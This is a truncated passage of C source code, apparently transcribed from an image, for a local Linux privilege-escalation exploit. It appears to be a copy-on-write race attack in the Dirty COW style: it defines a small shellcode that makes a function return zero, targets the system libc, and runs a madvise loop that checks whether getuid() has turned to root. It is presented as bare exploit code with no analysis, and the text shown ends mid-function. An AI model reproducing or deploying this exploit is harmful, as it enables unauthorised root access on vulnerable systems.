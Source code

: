 #include <stdbool.h>
#include <sys/mman.h>
#include <sys/stat.h>
#include <sys/user.h>
#include <sys/wait.h>
#include <sys/types.h>


#define SHELLCODE	"\x31\xc0\xc3"
#define SPACE_SIZE	256
#define LIBC_PATH	"/lib/x86_64-linux-gnu/libc.so.6"
#define LOOP		0x1000000

#ifndef PAGE_SIZE
#define PAGE_SIZE 4096
#endif

struct mem_arg  {
	struct stat st;
	off_t offset;
	unsigned long patch_addr;
	unsigned char *patch;
	unsigned char *unpatch;
	size_t patch_size;
	bool do_patch;
	void *map;
};


static int check(bool do_patch, const char *thread_name)
{
	uid_t uid;

	uid = getuid();

	if (do_patch) {
		if (uid == 0) {
			printf("[*] patched (%s)\n", thread_name);
			return 1;
		}
	} else {
		if (uid != 0) {
			printf("[*] unpatched: uid=%d (%s)\n", uid, thread_name);
			return 1;
		}
	}

	return 0;
}


static void *madviseThread(void *arg)
{
	struct mem_arg *mem_arg;
	size_t size;
	void *addr;
	int i, c = 0;

	mem_arg = (struct mem_arg *)arg;
	addr = (void *)(mem_arg->offset & (~(PAGE_SIZE - 1)));
	size = mem_arg->offset - (unsigned long)addr;

	for(i = 0; i < LOOP; i++) {
		c += madvise(addr, size, MADV_DONTNEED);

		if (i % 0x1000 == 0 && check(mem_arg->do_patch, __func__))
			break;
	}

	if (c == 0x1337)